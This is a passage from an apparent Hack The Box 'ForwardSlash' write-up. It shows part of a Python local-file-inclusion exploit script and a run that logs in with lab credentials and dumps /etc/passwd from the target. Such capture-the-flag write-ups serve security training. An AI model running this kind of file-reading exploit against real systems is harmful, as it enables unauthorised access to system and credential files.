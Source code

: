 ```python
        with open(dump_filename, 'w') as f:
            f.write(file_dump)
        
        print(f"[+] File saved as {dump_filename}")

    elif os.path.exists(dump_filename):
        raise Exception(f"[!] {dump_filename} already exists!")

def set_arguments():
    parser = argparse.ArgumentParser(
        description="HTB ForwardSlash LFI Exploit"
    )
    parser.add_argument('-t', '--target', required=True, dest='target')
    parser.add_argument('-f', '--file', required=True, dest='file')
    parser.add_argument('-u', '--user', dest='user')
    parser.add_argument('-p', '--password', dest='password')
    parser.add_argument('-w', '--write', dest='write', action='store_true', default=False)
   
    return parser.parse_args()

def main():
    try:
        args = set_arguments()
        exploit(args.target, args.file, args.write, args.user, args.password)

        print("\n[+] Script finished successfully")
        sys.exit(0)

    except KeyboardInterrupt:
        print("\n[!] Keyboard interrumpt detected. Quitting!")
        sys.exit(1)

    except Exception as e:
        print(e)
        sys.exit(1)

main()
```

Executed it using the `-w` flag to save a copy of the file.

```bash
python3 forwardslash.py -t 10.129.190.235 -f /etc/passwd -w

[+] Logged in as dusk:dusk1234

[+] Dumping /etc/passwd:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

[+] File saved as passwd.dmp

[+] Script finished successfully
```
